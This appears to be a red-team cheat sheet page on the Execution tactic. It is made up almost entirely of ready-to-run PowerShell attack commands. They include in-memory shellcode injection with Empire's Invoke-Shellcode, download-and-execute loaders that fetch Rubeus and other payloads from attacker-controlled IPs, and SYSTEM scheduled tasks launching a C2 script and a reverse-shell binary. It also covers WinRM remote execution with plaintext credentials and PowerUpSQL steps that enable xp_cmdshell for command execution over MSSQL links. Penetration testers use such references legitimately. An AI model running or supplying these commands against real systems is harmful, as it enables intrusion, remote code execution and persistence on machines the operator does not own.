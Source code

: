 ```yaml
---
description: >-
  The adversary is trying to run malicious code.
  https://attack.mitre.org/tactics/TA0002/
---
```


# Execution

## Executing Shellcode

### Empire's `Invoke-Shellcode`

{% code overflow="wrap" %}
```powershell
IEX (New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/EmpireProject/Empire/dev/data/module_source/code_execution/Invoke-Shellcode.ps1');
$b = [System.Io.File]::ReadAllBytes("C:\beaconx64.bin");
Invoke-Shellcode -ProcessId $(ps edge.exe).Id -Shellcode $b;
```
{% endcode %}

Or `Invoke-Shellcode -Shellcode @(0x90,0x90,0xC3)`

### Executable to In-Memory Assembly Code

Reflectively loading a binary as assembly code

{% code overflow="wrap" %}
```powershell
[System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData('http://my_ip/run.exe'))
```
{% endcode %}

### Download and Execute in Memory

GitHub: [https://github.com/jnqpblc/Misc-PowerShell/blob/master/SharpDLExec.ps1](https://github.com/jnqpblc/Misc-PowerShell/blob/master/SharpDLExec.ps1)

{% code overflow="wrap" %}
```powershell
$u = "https://raw.githubusercontent.com/Flangvik/SharpCollection/master/NetFramework_4.0_Any/"
$f="Rubeus.exe"
$c = "1"
[byte[]] $a = (New-Object System.Net.WebClient).DownloadData($u+$f)
$assem = [System.Reflection.Assembly]::Load($a);
#$assem.CustomAttributes
#$assem.EntryPoint |ft Name, ReflectedType, Module, IsPublic
([Type]$assem.EntryPoint.DeclaringType.FullName.ToString())::([String]$assem.EntryPoint.Name).Invoke($c)
```
{% endcode %}

Additionally, there are additional methods here: [https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md)

{% code overflow="wrap" %}
```powershell
$wp=[System.Reflection.Assembly]::Load([byte[]](new-object net.webclient).Downloaddata('http://172.16.40.13:1337/defnotrubeus.exe'));
[Rubeus.Program]::MainString("triage")
```
{% endcode %}

## WinRM

The following will establish a WinRM session and execute commands remotely.

{% code overflow="wrap" %}
```powershell
$cred = New-Object System.Management.Automation.PSCredential('burmat.local\jsmith', (ConvertTo-SecureString 'password' -AsPlainText -Force));

$sess = New-PSSession -Credential $cred -ComputerName $hostname; 
if ($sess) { 
    Invoke-Command -Session $sess -ScriptBlock { hostname; whoami; }; 
    Remove-PSSession $sess;
}
```
{% endcode %}

Or, you can gain an interactive session.

{% code overflow="wrap" %}
```powershell
Enter-PSSession $(New-PSSession -Credential $cred -ComputerName $hostname);
```
{% endcode %}

## PowerShell Execution via Text File

{% code overflow="wrap" %}
```powershell
[scriptblock]::Create($((New-Object System.Net.WebClient).DownloadString('http://192.168.1.123/payload.txt'))).Invoke();
```
{% endcode %}

## Scheduled Task Creation

{% code overflow="wrap" %}
```powershell
$Script = 'C:\tmp\C2.ps1';
$TaskName = 'C2 PoC for SYSTEM';
$Description = 'A proof-of-concept for scheduled task creation';
$User = "NT AUTHORITY\SYSTEM";
$Executable = "powershell.exe";
$Action = New-ScheduledTaskAction -execute $Executable -Argument "-file $Script";
$Trigger = New-ScheduledTaskTrigger -Once -At (Get-Date).Date -RepetitionInterval (New-TimeSpan -Hours 24);
$Settings = New-ScheduledTaskSettingsSet –StartWhenAvailable;
Register-ScheduledTask -TaskName $TaskName -Trigger $Trigger -Action $Action -Setting $Settings -Description $Description -User $User -RunLevel Highest;
```
{% endcode %}

Or

{% code overflow="wrap" %}
```powershell
schtasks /create /sc minute /mo 1 /tn burmat /tr \tmp\reverse443.exe /ru SYSTEM
```
{% endcode %}

## PowerUpSQL

GitHub Repo: [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) and more thorough cheat sheet: [https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)

### MSSQL Server Enumeration

{% code overflow="wrap" %}
```powershell
## basic instance information
Get-SQLInstanceLocal

## more verbose information:
Get-SQLServerInfo -Verbose -Instance SQLSRV\SQLEXPRESS

## crawl for databse links:
Get-SqlServerLinkCrawl -Verbose -Instance SQLSRV\SQLEXPRESS
```
{% endcode %}

### Enumerate User Privileges

Full credit to: [https://github.com/lkys37en](https://github.com/lkys37en)

{% code overflow="wrap" %}
```powershell
Import-Module C:\tools\PowerUpSQL\PowerUpSQL.psm1

$Domain = "burmat.co";
$DC = (Get-ADDomain -Identity $Domain).PDCEmulator;
$DomainDN = (Get-ADDomain -Identity $Domain).DistinguishedName;

Get-SQLInstanceDomain -DomainController $DC -OutVariable MSSQLServers -verbose | Export-Csv ("MSSQLServers.csv") -NoTypeInformation;

$SQLCmd = $MSSQLServers | Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10;
$SQLCmd | Export-Csv ("Weak Microsoft SQL Server Access Control.csv") -NoTypeInformation;

foreach ($MSSQLPriv in $MSSQLPrivs) {
   $MSSQLStoredProceduresEnabledonPublicRole = [ordered]@{
	  'Affected Scope'        = $Domain
	  'Computer Name'         = $MSSQLPriv.ComputerName.ToLower()
	  'Instance'              = $MSSQLPriv.Instance.ToLower()
	  'Database Name'         = $MSSQLPriv.DatabaseName
	  'Principal Name'        = $MSSQLPriv.PrincipalName
	  'Principal Type'        = $MSSQLPriv.PrincipalType
	  'Permission Type'       = $MSSQLPriv.PermissionType
	  'Permission Name'       = $MSSQLPriv.PermissionName
	  'State Description'     = $MSSQLPriv.StateDescription
	  'Object Name'           = $MSSQLPriv.ObjectName
	}
	$MSSQLStoredProceduresEnabledonPublicRole_object = New-Object -TypeName PSObject -Property $MSSQLStoredProceduresEnabledonPublicRole;
	$MSSQLStoredProceduresEnabledonPublicRole_object | Export-Csv ("MSSQL Stored Procedures Enabled on Public Role.csv") -NoTypeInformation -Append;
}
```
{% endcode %}

### Enable xp\_cmdshell / Execute Commands

{% code overflow="wrap" %}
```powershell
## enable xp_cmdshell:
Get-SQLQuery -Instance SQLSRV\SQLEXPRESS -query "EXECUTE('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT ""sqlsrv.burmat.local"""

## test rce:
Get-SQLServerLinkCrawl -Instance "SQLSRV\SQLEXPRESS" -Query "exec master..xp_cmdshell 'whoami'" | Select-Object -ExpandProperty CustomQuery
```
{% endcode %}

### Execute DB Query via MSSQL Link

{% code overflow="wrap" %}
```powershell
Get-SqlServerLinkCrawl -Verbose -Instance SQLSRV\SQLEXPRESS -Query "select name from master..sysdatabases" | Select-Object -ExpandProperty CustomQuery
```
{% endcode %}

### Import the PowerShell ActiveDirectory Module

{% file src="../../.gitbook/assets/ad.txt" %}

